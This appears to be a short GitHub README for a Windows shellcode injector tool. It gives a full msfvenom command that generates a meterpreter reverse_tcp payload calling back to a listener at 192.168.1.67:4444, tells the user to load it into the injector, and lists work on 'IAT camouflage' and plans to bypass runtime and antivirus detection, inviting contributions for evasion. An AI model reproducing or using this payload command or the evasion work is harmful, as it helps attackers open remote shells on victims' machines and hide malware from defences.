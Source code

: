 # Shellcode Injector
### instructions
1. Gen your msfvenom shellcode :
`msfvenom -platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.67 LPORT=4444 -f c --var-name=wannabe`
2. Put your shellcode in the `wannabe` variable.

### UPDATES 
- Added IAT camouflage
- Added Force loading kernel32.dll
- More to come.. need to bypass runtime...

### Warning
This does not bypass AV as of now, we did not implement anything for it. If you want to contribute and add it, feel  free to do so.
This is simply to play with memory allocation and execution. 

